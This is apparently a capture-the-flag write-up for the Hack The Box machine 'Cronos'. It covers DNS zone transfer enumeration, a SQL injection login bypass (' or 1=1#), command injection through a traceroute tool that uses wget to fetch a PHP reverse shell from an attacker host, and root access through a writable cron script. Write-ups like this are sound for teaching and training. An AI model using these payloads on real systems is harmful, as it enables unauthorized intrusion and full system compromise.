

# Cronos

## Summary

**Vulnerability Exploited:** Multiple vulnerabilities in admin.cronos.htb console (SQLi, RCE)

**Vulnerability Explanation****:** The login page for the admin console is vulnerable to SQL injection, so attackers may bypass authentication. Within the console, improper sanitization of user input allows attackers to execute arbitrary code through Net Tool v0.1.

**Privilege Escalation Vulnerability:** /var/www/laravel/artisan script executed as cronjob by root is owned by www-data

## Penetration

We begin with a port scan using nmap.

If we attempt to access http://\<victim ip\>, we will find nothing at all but the Apache2 Ubuntu default page ("It works!")

Let's turn our attention to DNS (port 53) to see if we can find more interesting web content. We can discover information about the domain using nslookup.

We find the name ns1.cronos.htb. We can learn more about the cronos.htb domain by using the host command to perform a zone transfer.

The name admin.cronos.htb stands out. We can append "\<victim ip\> admin.cronos.htb" to our /etc/hosts file and navigate to admin.cronos.htb in our browser.

We find a login page for an admin console. Luckily, the login has a SQL injection vulnerability, so we can bypass authentication with the username **' or 1=1#** and no password.

Inside the console, we find a tool for executing traceroute. The tool takes user input and expects an IPv4 address. However, the tool does not properly sanitize user input, so we can execute arbitrary bash commands by submitting an IPv4 address followed by a semicolon and the command we wish to run.

We can host Pentest Monkey's php reverse shell on our own webserver and download it to the victim server using the input **8.8.8.8; wget http://\<attacker ip\>/shell.php**.

We launch the shell by navigating to admin.cronos.htb/shell.php

Now we need to find a privilege escalation vulnerability. We find what we are looking for in /etc/crontab.

The last job in the table runs as root, but it executes a script owned by www-data. We can replace the original script with another copy of shell.php (after changing the listening port).

After a minute, the cronjob trips our shell, and we have root.

